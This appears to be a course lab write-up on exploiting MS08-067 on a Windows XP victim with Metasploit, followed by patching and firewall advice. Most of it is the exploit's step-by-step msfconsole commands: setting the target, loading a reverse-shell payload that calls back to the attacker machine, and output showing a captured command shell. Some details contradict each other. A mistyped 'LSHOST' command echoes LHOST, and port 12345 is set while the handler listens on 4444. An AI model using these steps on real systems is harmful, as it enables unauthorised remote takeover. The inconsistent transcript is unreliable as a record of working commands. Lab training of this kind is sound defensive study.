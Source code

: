 ## Test 1: [Chapter 4: MS08-067]

### Vulnerability Description
- **About:** MS08-067 is a critical vulnerability in the Windows Server service, specifically in the handling of Remote Procedure Call (RPC) requests. It allows an attacker to execute arbitrary code remotely by sending a specially crafted RPC request to the target system.
- **History:** MS08-067 was prominent in 2008 because it was a remotely exploitable vulnerability affecting multiple versions of Windows, making millions of systems worldwide susceptible to attacks. Its widespread exploitation by the Conficker worm highlighted how quickly vulnerabilities could be weaponized, underscoring the critical importance of timely patching and network security.

### Testing Environment
- **Victim:** 
  - Windows XP
  - Affected by all service packs
  - Default setup

- **Attacker:** 
  - Kali Linux
  - Using metasploit module: windows/smb/ms08_067_netapi
  - No preconditions for payload/vulnerability to be exploited outside of metasploit configurations

### Testing Procedures
**Setup:**
- **Attacker**:
    - Start msfconsole:
    ```bash
    root@kali:~# msfconsole
    ```
    - Load module: 
    ```
    msf > use windows/smb/ms08_067_netapi 
    msf exploit(ms08_067_netapi) >
    ```
    - Show options (Optional):
    ```bash
    msf exploit(ms08_067_netapi) > show options

    Module options (exploit/windows/smb/ms08_067_netapi):

      Name       Current Setting  Required  Description
      ----       ---------------  --------  -----------
      RHOST                       yes       The target address
      RPORT      445              yes       Set the SMB service port
      SMBPIPE    BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)

    Exploit target:

      Id  Name
      --  ----
      0   Automatic Targeting
    ```

    - Set the RHOST to the victim IPv4 address `192.168.20.10`:
    > We can specify the target and port but for testing purposes the default here is sufficient. The Exploit Target is set to 0 Automatic Targeting. This is the target operating system and version.
    ```bash
    msf exploit(ms08_067_netapi) > set RHOST 192.168.20.10
    ``` 
    - Setting the payload:
    ```bash
    msf exploit(ms08_067_netapi) > set payload windows/shell_reverse_tcp
    payload => windows/shell_reverse_tcp
    ```
    - Set the LHOST on the payload `192.168.20.9`:
    ```bash
    msf exploit(ms08_067_netapi) > set LSHOST 192.168.20.9
    LHOST => 192.168.20.9
    ```
    - Set the LPORT on the payload `12345`:
    ```bash
    msf exploit(ms08_067_netapi) > set LPORT 12345
    LPORT => 12345
    ```
    - Run the exploit:
    ```bash
    msf exploit(ms08_067_netapi) > exploit

    [*] Started reverse handler on 192.168.20.9:4444
    [*] Automatically detecting the target...
    [*] Fingerprint: Windows XP - Service Pack 3 - lang:English
    [*] Selected Target: Windows XP SP3 English (AlwaysOn NX)
    [*] Attempting to trigger the vulnerability...
    [*] Command shell session 2 opened (192.168.20.9:4444 -> 192.168.20.10:1374) at 2024-09-24 15:25:01 -0400
    
    Microsoft Windows XP [Version 5.1.2600]
    (C) Copyright 1985-2001 Microsoft Corp.
    
    C:\WINDOWS\system32>
    ```
- **Outcome:** 
  Metasploit launches a listener on port 4444 when we enter the exploit in order to capture the target's reverse shell. Next, Metasploit fingerprinted the remote SMB server and chose the right exploit target for us because we had left the target set to Automatic Targeting by default. After choosing the exploit, Metasploit transmitted the exploit string and made an effort to take over the target system and run the payload we had chosen. Our handler caught a command shell since the attack was successful.

## Recommended Mitigation
- **Mitigation Steps:** The simplest way to mitigate the vulnerability of MS08-067 is to Use Microsoft security patch KB958644 that was releasd the same year the vulnerbility was discovered, which fixes the Windows Server service vulnerability, to mitigate the MS08-067 vulnerability on a Windows XP machine.
- **Security Best Practices:** Additionally, to lessen vulnerability to network-based assaults, block port 445 on the firewall and disable non-critical services like SMB. Utilize intrusion detection systems to keep an eye out for attempted exploits and network segmentation to restrict access to susceptible systems for increased security.

## Chapter 4 Lab sample:
![Markdown Logo](https://markdown-here.com/img/icon256.png)
